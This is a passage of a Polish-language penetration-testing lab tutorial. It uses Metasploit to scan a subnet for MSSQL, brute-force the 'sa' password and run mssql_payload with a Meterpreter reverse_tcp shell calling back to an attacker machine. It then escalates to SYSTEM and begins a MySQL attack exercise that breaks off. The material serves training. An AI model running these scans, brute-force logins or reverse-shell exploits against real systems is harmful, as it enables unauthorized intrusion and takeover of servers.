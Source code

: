 W tym ćwiczeniu wyszukamy wszystkie hosty z uruchomioną bazą MSSQL. Spróbujemy sie do nich zalogować i otworzyć powłokę za pomocą exploita.
* Pierwszą czynnością, będzię zeskanowanie wszystkich dostępnych hostów pod względem uruchomionej usługi MS SQL Server. Za pomocą metasploita i modułu **mssql_ping**
wykonujemy skanowanie:
```
> use auxiliary/scanner/mssql/mssql_ping
> set RHOSTS 192.168.1.0/24
> set THREADS 8
> run
```
* W wyniku otrzymujemy hosty z usługą MS SQL w raz z dodatkowymi informacjami na temat wersji, portów itp.
Większośc serwerów MS SQL instalowanych jest z metodą uwierzytelnienia mixed, gdzie domyślnym użytkownikiem jest *„sa”*- często z prostym hasłem. Użyjemy więc metody słownikowej do złamania hasła.
* Do ataku użyjemy modułu metasploita **mssql_login** w raz z wygenerowanym słownikiem.
```
> use auxiliary/scanner/mssql/mssql_login
> set PASS_FILE /root/password.txt
> set USERNAME sa
> set THREADS 8
> set RHOSTS <WinServer2012 IP>
> set STOP_ON_SUCCESS true
> run
```
Jeśli krok ten zakończy sie powodzeniem, hasło dla użytkownika *‘sa’* zostanie odnalezione i możemy przejść do uruchomienia exploita:

```
> use exploit/windows/mssql/mssql_payload
> set RHOST <WindServer2012 IP>
> set PASSWORD <hasło>
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST <Kali IP>
> exploit
```
Po powodzeniu exploita oraz uruchomieniu ładunku powinnismy dostać powłokę meterpretera.
`meterpreter >`
Sprawdzamy nasze prawa dostępu i podnosimy je do uprawnień systemowych, migrując nasz proces np do procesu explorer.exe:
```
> getuid
> migrate <pid explorer.exe>
> getsystem
```
Uruchamiając powłokę mamy pełen dostęp do systemu:
`> shell`
## Ćwiczenie 13 – Atak na bazę danych MySQL
>**Zasoby:**
Kali Linux , Windows Server 2012

Za pomocą modułu **mysql_version** sprawdzimy wersję serwera MySQL:
```
> use auxiliary/scanner/mysql/mysql_version
> set RHOSTS <WinServer2012 IP>
> run
```
Następnym krokiem jaki wykonamy, będzie próba wykrycia konta, które pozwoli nam na zalogowanie się do bazy.
W tym celu skorzystamy z modułu **mysql_login** wraz ze zdefiniowanymi słownikami nazw użytkowników i haseł:
